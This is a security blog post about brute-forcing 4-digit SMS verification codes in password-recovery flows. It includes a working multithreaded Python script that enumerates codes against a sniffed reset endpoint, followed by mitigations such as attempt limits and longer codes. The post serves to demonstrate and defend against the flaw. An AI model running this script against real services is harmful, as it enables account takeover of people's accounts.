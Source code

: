 ```yaml
---
title: "Security Issues with SMS Verification Code Strength in Password Recovery"
author: "ZhgChgLi"
date: 2021-03-14T15:57:38.256+0000
last_modified_at: 2024-04-13T16:30:08.749+0000
categories: ["ZRealm Dev."]
tags: ["ios-app-development","hacker","web-security","password-security","security-token"]
description: "Demonstrating the severity of brute force attacks using Python"
image:
  path: /assets/99a6cef90190/1*xtbLIfJ6KELkGYeVCnzSFg.jpeg
render_with_liquid: false
---
```


### Security Issues with SMS Verification Code Strength in Password Recovery

Demonstrating the severity of brute force attacks using Python



![Photo by [Matt Artz](https://unsplash.com/@mattartz?utm_source=unsplash&utm_medium=referral&utm_content=creditCopyText){:target="_blank"}](/assets/99a6cef90190/1*xtbLIfJ6KELkGYeVCnzSFg.jpeg)

Photo by [Matt Artz](https://unsplash.com/@mattartz?utm_source=unsplash&utm_medium=referral&utm_content=creditCopyText){:target="_blank"}
### Introduction

This article does not contain much technical content related to cybersecurity; it simply stems from a recent thought while using a certain platform's website. I wanted to test its security and discovered some issues.

When using the password recovery feature on websites or apps, there are generally two options: one is to enter the account or email, after which a link containing a token to reset the password is sent to the email. Clicking the link opens the page to reset the password, which is usually not problematic unless there are design flaws as mentioned in [a previous article](../142244e5f07a/).

The other method for password recovery is to enter the bound mobile phone number (mostly used in app services), after which an SMS verification code is sent to the phone. Once the code is entered, the password can be reset. However, for convenience, most services use purely numeric codes. Additionally, since iOS ≥ 11 introduced the [Password AutoFill](../948ed34efa09/) feature, when the phone receives the verification code, the keyboard automatically detects it and prompts the user.

![](/assets/99a6cef90190/1*f7frmgNsLwW1Q9e9QtAt1A.png)

According to the [official documentation](https://developer.apple.com/documentation/security/password_autofill/about_the_password_autofill_workflow){:target="_blank"}, Apple has not provided specific format rules for automatic code filling. However, I have observed that almost all services that support auto-fill use purely numeric codes, suggesting that only numbers are allowed and complex combinations of numbers and letters are not permitted.
### Issues

Due to the potential for brute force attacks on numeric passwords, especially with 4-digit codes, there are only 10,000 combinations from 0000 to 9999. Using multiple threads and machines, one can perform a distributed brute force attack.

Assuming a response time of 0.1 seconds per verification request, for 10,000 combinations, the calculation is as follows:
```
Time required for cracking attempts: ((10,000 * 0.1) / number of threads) seconds
```

Even without using threads, it would only take a little over 16 minutes to try all possible SMS verification codes.

> _In addition to insufficient password length and complexity, there are two other issues: the lack of a limit on the number of attempts for the verification code and the excessively long validity period of the code._ 

### Summary

In summary, this cybersecurity issue is commonly found on the app side; web services typically implement measures such as CAPTCHA after multiple failed attempts or require additional security questions when requesting a password reset, making it more difficult to send verification requests. Additionally, if the web service does not separate the front and back end, each verification request may require loading the entire webpage, increasing response times.

On the app side, due to process design and user convenience, the password reset process is often simplified. Some apps even allow login through mobile number verification. If there are no protections on the API side, this can lead to security vulnerabilities.
### Implementation

> ⚠️ Warning ⚠️ This article is solely for demonstrating the severity of this security issue; please do not use this information for malicious purposes. 

#### Sniffing Verification Request API

Everything starts with sniffing. For this part, you can refer to previous articles like "[Apps use HTTPS for transmission, but data is still stolen.](../46410aaada00/)" and "[Using Python + Google Cloud Platform + Line Bot to automate routine tasks](../70a1409b149a/)". I recommend using the [Proxyman](https://proxyman.io/){:target="_blank"} tool for sniffing.

![](/assets/99a6cef90190/1*22uVkKdpDXnwEygDa9lwyA.png)

If it is a front-end and back-end separated web service, you can also use Chrome -> Inspect -> Network to see what requests are sent after submitting the verification code.

![](/assets/99a6cef90190/1*Skm69eJiZKeK4_QUU0wIoQ.png)

**Assuming the verification request received is:**
```
POST https://zhgchg.li/findPWD
```

**Response:**
```
{
   "status": false,
   "msg": "Verification error"
}
```
#### Writing a Brute Force Python Script

crack.py:
```python
import random
import requests
import json
import threading

phone = "0911111111"
found = False
def crack(start, end):
    global found
    for code in range(start, end):
        if found:
            break
        
        stringCode = str(code).zfill(4)
        data = {
            "phone": phone,
            "code": stringCode
        }

        headers = {}
        try:
            request = requests.post('https://zhgchg.li/findPWD', data=data, headers=headers)
            result = json.loads(request.content)
            if result["status"] == True:
                print("Code is:" + stringCode)
                found = True
                break
            else:
                print("Code " + stringCode + " is wrong.")
        except Exception as e:
            print("Code " + stringCode + " exception error (" + str(e) + ")")

def main():
    codeGroups = [
        [0, 1000], [1000, 2000], [2000, 3000], [3000, 4000], [4000, 5000],
        [5000, 6000], [6000, 7000], [7000, 8000], [8000, 9000], [9000, 10000]
    ]
    for codeGroup in codeGroups:
        t = threading.Thread(target=crack, args=(codeGroup[0], codeGroup[1],))
        t.start()

main()
```

After running the script, we obtain:


![](/assets/99a6cef90190/1*jGp69g9H1BjLqq6SdIHRBw.png)

```
Verification code equals: 1743
```

Using `1743`, we can reset the password or directly log into the account.


> Bingo! 

### Solutions
- Increase the amount of information required for password resets (e.g., birthday, security questions)
- Increase the length of the verification code (e.g., Apple’s 6-digit codes) and enhance code complexity (if it does not affect AutoFill functionality)
- Make the verification code invalid after more than 3 incorrect attempts, requiring the user to request a new code
- Shorten the validity period of the verification code
- Lock the device after too many incorrect attempts and implement CAPTCHA
- Implement SSL Pinning and encryption for data transmission in apps (to prevent sniffing)

### Further Reading
- [Exposing a clever website vulnerability discovered a few years ago](../142244e5f07a/)
- [How to create an engaging engineering CTF competition](../729d7b6817a4/)
- [Apps use HTTPS for transmission, but data is still stolen.](../46410aaada00/)
- [Using Python + Google Cloud Platform + Line Bot to automate routine tasks](../70a1409b149a/)

If you have any questions or feedback, feel free to [contact me](https://www.zhgchg.li/contact){:target="_blank"}.

_[Post](https://medium.com/zrealm-ios-dev/%E6%89%BE%E5%9B%9E%E5%AF%86%E7%A2%BC%E4%B9%8B%E7%B0%A1%E8%A8%8A%E9%A9%97%E8%AD%89%E7%A2%BC%E5%BC%B7%E5%BA%A6%E5%AE%89%E5%85%A8%E5%95%8F%E9%A1%8C-99a6cef90190){:target="_blank"} converted from Medium by [ZMediumToMarkdown](https://github.com/ZhgChgLi/ZMediumToMarkdown){:target="_blank"}._